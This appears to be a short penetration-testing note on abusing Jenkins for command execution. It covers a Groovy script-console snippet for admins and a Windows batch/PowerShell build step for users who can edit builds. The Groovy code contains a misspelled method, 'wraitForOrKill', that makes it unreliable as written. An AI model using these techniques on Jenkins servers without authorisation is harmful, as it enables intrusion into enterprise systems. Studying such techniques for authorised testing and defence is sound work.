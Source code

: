 - In-house developed tools that are running in enterprise network can be abused as they are not made with security in mind.
- Eg: CI tools such as jenkins
# Jenkins
- Tools used for continuous integration (CI).
- If we have administrative access in Jenkins we can use the script console to run commands on the server.
- The script is written in Groovy script.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'uname -a'.execute()
proc.consumeProcessOutput(sout,serr)
proc.wraitForOrKill(1000)
println "out > $sout err> $serr"
```
- If we don't have administrative access but have access to a user that can add or edit build steps in the build configuration, we can add a build step to run windows command.
- Configure -> Add build steps -> add "Execute Windows Batch Command" -> powershell -c "Get-ChildItem"
